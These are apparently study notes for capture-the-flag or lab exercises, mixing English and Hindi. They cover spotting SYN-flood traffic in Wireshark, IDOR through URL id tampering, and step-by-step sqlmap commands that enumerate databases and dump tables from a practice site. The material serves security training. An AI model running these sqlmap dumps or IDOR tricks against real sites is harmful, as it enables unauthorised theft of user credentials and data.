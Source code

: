 wireshark open kro "Statics" pr jao fir "Conversation" pr jao  and sbse jada packet wala flag hoga

Answer:
**To find DOS (SYN and ACK) :*
open file with wireshark
* statistic -> IPv4 statistics -> source and destination address
* filter using: `tcp.flags.syn == 1` 
or 
`tcp.flags.syn == 1 and tcp.flags.ack == 0` 
or 
filter to highest number of request

-----------------------------------------------------------------------------
SQL injectionextract the password of a user test. You have already registered on the website with credentials Karen/computer.

https://www.geeksforgeeks.org/use-sqlmap-test-website-sql-injection-vulnerability/

If we have a login account we can login or use sqli on the login page and go to profile. 
There, we can use IDOR vulnerability (manipulating =id value on url) and seeing 
info regarding another user.

In alternative we can use SQLMap and the vulnerable url after login to dump user info.
Get all databases using sqlmap
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 --dbs
Get tables from a selected database_name
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D database_name --tables 
Get all columns from a selected table_name in the database_name
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D database_name -T table_name --columns
Dump the data from the columns 
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D database_name -T table_name -C column_name --dump


SQL map wala question
login page pr sql hoga file bnaa ke sql chlana hai
sqlmap -r sql.txt --dbs
database ka name mil jayega
fir kisi ek database mai details hogi toh uski table nikalni hai
sqlmap -r sql.txt -D database_name --tables 
sqlmap -r sql.txt -D database_name -T table_name --columns
sqlmap -r sql.txt -D database_name -T table_name -C columns_name --dump
-----------------------------------------------------------------------------
Web application page with page_id=84.

Website ko scroll kro and id parameter wala url dhundo and usme questinon wali id  dalo and flag mil jayega


Open the site
change the page ID at the url section to the specified page ID
Find the flag

-------------------------------------------------------------------------------------------
Vulnerability research and exploit the application Locate the flag file
